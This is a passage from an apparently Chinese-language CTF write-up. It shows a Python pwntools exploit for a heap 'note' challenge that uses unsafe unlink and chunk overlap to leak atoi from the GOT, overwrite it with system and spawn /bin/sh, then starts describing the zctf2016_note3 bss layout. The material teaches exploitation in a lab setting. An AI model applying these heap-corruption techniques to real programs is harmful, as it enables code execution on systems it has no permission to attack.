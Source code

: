 ```python
    sla('note:',str(index))

sla('name:','merc')
sla('address:','privacy')

ptr = 0x602120
fd = ptr-0x18
bk = ptr-0x10
payload = flat('a'*8,0x61,fd,bk,'a'*0x40,0x60)
add(0x80,payload) # 0
add(0) # 1,0x20
add(0x80) # 2

delete(1)
# padding,prev_size=0x20+0x80,PREV_IN_USE=0
add(0,flat('a'*0x10,0xa0,0x90))
delete(2)

payload = flat('a'*0x18,elf.got['atoi'])
edit(0,1,payload)
show(0)
ru('is')
atoi = uu64(r(6))
system,binsh = ret2libc(atoi,'atoi')
edit(0,1,p64(system))
sla('>>','/bin/sh\x00')
```


### zctf2016_note3
这题和上题类似，不过 bss 结构大致如下：
```
current_ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```

